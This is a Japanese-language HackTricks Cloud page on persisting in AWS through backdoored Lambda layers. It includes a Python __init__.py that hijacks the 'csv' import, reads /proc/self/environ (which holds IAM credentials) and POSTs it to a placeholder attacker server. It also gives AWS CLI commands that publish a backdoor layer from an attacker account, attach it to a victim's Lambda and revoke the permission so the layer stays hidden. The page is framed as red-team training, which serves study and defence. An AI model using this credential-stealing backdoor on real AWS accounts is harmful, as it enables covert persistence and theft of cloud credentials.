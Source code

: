 # AWS - Lambda Layers Persistence

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出することで、ハッキングトリックを共有してください。

</details>
{% endhint %}

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーには、ライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または構成ファイルを含めることができます。

1つの関数に最大**5つのレイヤー**を含めることができます。関数にレイヤーを含めると、**内容は実行環境の`/opt`ディレクトリに展開**されます。

**デフォルト**では、作成した**レイヤー**はAWSアカウントに**プライベート**です。他のアカウントとレイヤーを**共有**するか、レイヤーを**公開**するかを選択できます。異なるアカウントが公開したレイヤーを関数が消費する場合、関数は**削除された後もレイヤーバージョンを使用したり、レイヤーへのアクセス許可が取り消された後も使用**できます。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新することはできません。

コンテナイメージとして展開された関数はレイヤーを使用しません。代わりに、イメージをビルドする際に好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージ化します。

### Pythonのロードパス

LambdaでPythonが使用するロードパスは次のとおりです：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**第二**と**三番目の位置**が、**lambda layers**がファイルを展開するディレクトリを占める方法を確認してください: **`/opt/python/lib/python3.9/site-packages`** と **`/opt/python`**

{% hint style="danger" %}
攻撃者が使用されたlambda **layer**に**バックドアを仕掛けたり**、**実行される任意のコードを追加したり**することに成功した場合、共通ライブラリがロードされるたびに悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです:

* 被害者のコードで**ロードされているライブラリを確認する**
* **lambda layers**を持つ**プロキシライブラリ**を作成し、**カスタムコードを実行**し、**元の**ライブラリを**ロードする**。

### 事前にロードされたライブラリ

{% hint style="warning" %}
このテクニックを悪用する際に困難に直面しました: Pythonランタイムでコードが実行されるときにはすでにいくつかのライブラリが**ロードされていました**。`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえもロードされていました**。\
この持続性テクニックを悪用するためには、コードが実行されるときに**ロードされていない新しいライブラリをロードする**必要があります。
{% endhint %}

このようなPythonコードを使用すると、lambda内のPythonランタイムで**事前にロードされたライブラリのリスト**を取得できます:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そしてこれが**リスト**です（`os`や`json`などのライブラリがすでにあるかどうかを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下は、**lambdaにデフォルトでインストールされているライブラリ**のリストです: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

この例では、対象のコードが**`csv`**をインポートしていると仮定します。**`csv`ライブラリのインポートにバックドアを仕掛けます**。

そのために、lambdaによってロードされるパスに、ファイル**`__init__.py`**を含むディレクトリ**csv**を作成します: **`/opt/python/lib/python3.9/site-packages`**\
その後、lambdaが実行され、**csv**をロードしようとすると、**`__init__.py`ファイルがロードおよび実行されます**。\
このファイルは次のようにする必要があります:

* ペイロードを実行する
* 元のcsvライブラリをロードする

以下のように行うことができます:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
その後、このコードを**`python/lib/python3.9/site-packages/__init__.py`**のパスに含むzipファイルを作成し、Lambdaレイヤーとして追加します。

このコードは[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)で見つけることができます。

統合されたペイロードは、**最初に呼び出されるとIAMクレデンシャルをサーバーに送信するか、Lambdaコンテナがリセットされた後**（コードの変更またはコールドLambda）に送信しますが、**他の技術**も統合できます。

### 外部レイヤー

外部アカウントから**Lambdaレイヤーを使用することが可能**です。さらに、Lambdaは権限を持っていなくても外部アカウントからレイヤーを使用できます。\
また、**Lambdaが持つことができるレイヤーの最大数は5**であることに注意してください。

したがって、この技術の柔軟性を向上させるために、攻撃者は次のことができます：

* ユーザーの既存のレイヤーにバックドアを仕込む（何も外部ではない）
* **自身のアカウント**で**レイヤーを作成**し、**被害者アカウントにアクセス権限を与え**てレイヤーを使用するように設定し、被害者のLambdaで**レイヤーを構成**し、**権限を削除**します。
* **Lambda**は引き続き**レイヤーを使用**でき、被害者は（Lambda内でrevシェルを取得する以外に）**レイヤーのコードを簡単にダウンロードする方法を持たなくなります。
* 被害者は**`aws lambda list-layers`**を使用して**外部レイヤーを見ることはできません**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
